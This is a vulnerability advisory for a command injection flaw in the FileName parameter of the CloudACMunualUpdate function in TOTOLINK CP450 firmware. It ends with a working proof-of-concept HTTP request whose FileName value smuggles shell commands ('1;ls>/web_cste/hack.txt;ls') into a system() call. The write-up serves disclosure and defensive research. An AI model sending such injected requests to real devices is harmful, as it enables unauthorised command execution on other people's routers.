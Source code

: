 ## CP450 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

Totolink outdoor CPE CP450 V4.1.0cu.747_B20191224 were discovered to contain a command injection vulnerability in the `CloudACMunualUpdate` function via the **FileName** parameter. 

Attacker can control `v31` by setting the parameter `FileName`.

![image-20240421163827190](./img/1.png)

Without any checking, `v31` will be passed to system function in line 157.

![image-20240421163827190](./img/2.png)

This vulnerability allows attackers to execute arbitrary commands via a crafted request.

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/cloud_update.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/CloudACMunualUpdate",
    "FileName": "1;ls>/web_cste/hack.txt;ls"
}
```

